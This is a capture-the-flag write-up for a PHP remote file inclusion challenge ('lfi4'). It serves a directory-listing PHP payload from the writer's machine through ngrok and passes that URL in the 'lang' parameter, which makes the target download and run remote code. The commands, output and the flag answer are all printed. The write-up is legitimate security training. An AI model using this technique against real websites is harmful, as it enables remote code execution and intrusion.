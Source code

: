 # lfi4

## What it is

Same as the others, but we don't know what file the flag is in.

## Solution

We need to find the path to the file the flag is in.

We can do that by executing code from a remote file ([source](https://www.php.net/manual/en/features.remote-files.php)):

### Serving the remote file

This code will be executed on the server and print the files in the server's current directory:
```php
echo implode(", ", scandir("."))
```

We can make a simple http server with python3
```
python3 -m http.server 8080
```
```
$ curl localhost:8080/remote.php 
<?php
    echo implode(", ", scandir("."))
?>
```

To make it available to the server we can use [ngrok](https://ngrok.com/):
```
ngrok http 8080
```

### Executing the remote code

Url to execute the remote code:
```
https://remote.secu-web.blackfoot.dev/?lang=https://d84a-163-5-23-68.eu.ngrok.io/remote.php
```

This appears on the page:
```
., .., hidden_file.html, index.php 
```

At https://remote.secu-web.blackfoot.dev/hidden_file.html we find:
```
Congratz, you can validate with ZOB{sh0uld_h4v3_h1dd3n_b3773r}
```

flag: ```ZOB{sh0uld_h4v3_h1dd3n_b3773r}```
